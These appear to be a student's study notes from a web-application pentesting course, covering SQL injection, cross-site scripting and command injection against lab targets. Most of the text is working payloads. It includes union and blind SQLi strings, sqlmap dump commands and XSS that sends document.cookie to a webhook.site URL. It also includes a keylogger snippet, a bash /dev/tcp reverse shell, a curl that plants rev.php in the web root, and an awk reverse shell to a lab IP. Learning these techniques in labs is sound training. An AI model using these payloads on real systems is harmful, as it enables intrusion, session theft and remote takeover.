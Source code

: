 
- [ ] SQL- Union | Blind

## Union
https://portswigger.net/web-security/sql-injection/cheat-sheet

Single & Double quotes
```
jeremy' or 1=1# 
```

at the end will use the terminator # aka pound sign or we can even use
```
jeremy' or 1=1-- -
```

Version
```
version()
```


```
jeremy' union select null,null,table_name from information_schema.tables#
```

```
jeremy' union select null,null,column_name from information_schema.columns#
```

```
jeremy' union select null,null,password from injection0x01#
```


## Blind

As we put wrong password we can see that it generated error (i.e. change in content lenght) and also we viewed in render in response code

Than will try username = jeremy' or 1=1#
but will encode it using ctrl + u 
```
username=jeremy'+or+1%3d1%23%26password=password
```

Sqlmap
Copy the request and paste into a txt file -> req.txt

>[! bug] Look for Injection Points
- user agents and think out of the box

```
Cookie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#; 
```

On a live target Mentor says to reduce the number of requests as will get limited request like 3 to 5.
```
sqlmap -r req.txt
```


```
substring((select version()), 1,1) = '7'#
```


```
sqlmap -r req2.txt --level=2 --dump -T injection0x02
```



<hr>



- [ ] XSS -DOM | Stored

Ctrl + Shift + C

```
alert(1)
```

is the most famous cross site scripting payload that you will come across.
Avoid using alter(1) cuz of the changes in Chrome and also how often it's filtered and detected.


Can use Netcat to listen locally or can use webhook.site
https://webhook.site/#!/2ba09e5e-3bbb-4103-8924-2cee42b01330


>[!warning]
In the real world when working as a pentest and exfilterating sensitive information, don't use public sites like webhook but can use EC2 instance or if vpn-ed into the network you can just use your local machine and listen.



>[! bug] Mentor recommend when u're testing for XSS either use print or prompt

### Reflected
LogKey: 
function logKey(event){console.log(event.key)}

document.addEventListner('keydown', logKey)


### Stored
Set up containers for our testing and this allows us to have multiple sessions open and test across different user accounts.

Mentor uses it for testing authorization issues:
to see if we can update Bob's account using Alice's session token.

But here will check if the CSS is indeed stored and not just showing up for the same user that post the payload.

Search Firefox containers
https://addons.mozilla.org/en-US/firefox/addon/multi-account-containers/


>[! important] HTML injection

Something that you might want to consider is that when testing for cross site scripting you can test for HTML injection first.

```
<h1>Test</h1>
```

```
<script>alert(document.cookie)</script>
```

```
<script>prompt(document.cookie)</script>
```



>[! warning]

Best Practice is the set the cookies to HTTP only, which is a flag that prevents JavaScript from accessing your cookie.


### DOM-based

This is DOM based cross site scripting Cuz what happens is, if we look at the network tab here we just reload the page quickly.

When we actually send information we can see that there is no request going and coming back to the server.

As this is entirely happening locally and it's vulnerability within the client this is DOM based CSS.

```
<script>prompt(1)</script>
```

```
<img src=x onerror="prompt(1)">
```
is a quite common payload when the document tries to load X it will throw an error and on the error we can execute some JS.


Re-direct the user to another website
Command : window.location.href
```
<img src=x onerror="window.location.href ='' ">
```


```
<script>var i = new Image; i.src="https://webhook.site/e0edf9f6-fb9d-4bda-9d7c-22fbf2a697c3/?"+document.cookie;</script>
```


<hr>

- [ ] Command Injection - Blind


Basic command chaining
```
; ls -la
```


Using logic operators
```
&& ls -la
```


Commenting out the rest of a command
```
; ls -la #
```


Using a pipe for command chaining
```
| ls -la
```


>[!warning] Let's see if we can pop a shell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

Will try the Bash TCP:
```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

but to know the bash path will run the command
```
which/bash
```

### Blind Injection

It look's like a this is blind command injection
So will use Weekhook.site and will use back tick `` to run the command
https://webhook.site/e0edf9f6-fb9d-4bda-9d7c-22fbf2a697c3?``

```
https://webhook.site/e0edf9f6-fb9d-4bda-9d7c-22fbf2a697c3?`whoami`
```


```
Command: https://tcm-sec.com && curl 192.168.17.133:8080/rev.php > /var/www/html/rev.php
```


>[!bug]  Don't forget to read the error msg carefully

```
10)^2))}';whoami;#
```

```
10)^2))}';which php;#
```

```
10)^2))}';/usr/bin/awk 'BEGIN {s = "/inet/tcp/0/192.168.17.133/4444"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null;#
```


- [ ] Insecure File Upload - Basic | Magic Bytes




- [ ] Authentication - Brute Force | MFA


- [ ] XXE


- [ ] IDOR


